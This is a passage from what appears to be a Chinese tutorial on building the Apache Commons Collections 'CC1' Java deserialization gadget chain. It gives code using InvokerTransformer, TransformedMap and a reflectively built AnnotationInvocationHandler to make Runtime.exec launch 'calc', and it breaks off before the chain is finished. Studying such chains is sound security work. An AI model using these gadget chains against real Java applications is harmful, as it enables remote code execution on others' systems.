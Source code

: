 找谁调用了`checkSetValue`

![image-20230923170844418](../images/image-20230923170844418.png)

`MapEntry`的`setValue`是用于遍历HashMap的。所以只需要遍历一个Map就可以触发这个`setValue`方法。

```java
Runtime runtime = Runtime.getRuntime();
InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});


HashMap<Object,Object> map = new HashMap<>();
map.put("test","123");
Map<Object,Object> transformedMap = TransformedMap.decorate(map, null, invokerTransformer);
for (Map.Entry entry: transformedMap.entrySet()) {
	// 调用 SetValue，SetValue 中调用了 checkSetValue，checkSetValue 调用了 transform
	entry.setValue(runtime);
}
```

继续找谁调用了`setValue`，这里刚好有一个在`readObject`里调用了`setValue`的

![image-20230923173037421](../images/image-20230923173037421.png)

![image-20230923173551302](../images/image-20230923173551302.png)

![image-20230923173506439](../images/image-20230923173506439.png)

并且从该类的构造函数可以知道`memberValues`是可控的

```java
        Runtime runtime = Runtime.getRuntime();
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        HashMap<Object,Object> map = new HashMap<>();
        map.put("test","123");
        Map<Object,Object> transformedMap = TransformedMap.decorate(map, null, invokerTransformer);
//        for (Map.Entry entry: transformedMap.entrySet()) {
//            // 调用 SetValue，SetValue 中调用了 checkSetValue，checkSetValue 调用了 transform
//            entry.setValue(runtime);
//        }
        
        //类没有注明类型，默认为 default，即只能在本包内使用，所以需要用反射调用执行
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationdhlConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationdhlConstructor.setAccessible(true);
        Object o = annotationInvocationdhlConstructor.newInstance(Override.class, transformedMap);
```

现在有两个问题

1. Runtime 类不可以被序列化，没有继承 serializable 接口，反射获取并转换为Transformer写法
